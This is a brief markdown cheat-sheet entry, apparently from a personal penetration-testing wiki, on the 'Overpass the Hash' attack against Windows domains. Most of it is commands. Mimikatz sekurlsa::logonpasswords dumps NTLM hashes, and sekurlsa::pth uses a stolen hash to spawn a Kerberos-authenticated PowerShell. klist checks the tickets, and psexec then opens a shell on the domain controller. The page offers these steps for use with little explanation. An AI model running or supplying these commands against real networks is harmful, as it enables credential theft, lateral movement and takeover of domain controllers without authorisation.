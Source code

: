 # Overpass the Hash
*Over* abuse the NTLM user hash, [[Attacking-Kerberos]], to gain full Kerberos Ticket Granting Ticket or service ticket and avoiding the use of NTLM authentication. It requires access to the special administrative share named Admin$, thus also local administrative rights. [[Mimikatz-Cheatsheet]] can help:
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```
To check Kerberos ticket cached and request some, we could also use any command the require domain permissions to get a TGS:
```powershell
klist # list cached Tickets
net use \\$dcname
klist # We should now have TGT
psexec.exe \\$dcname cmd.exe # Should have the official psexec application in the context of the TGT user on the DC
```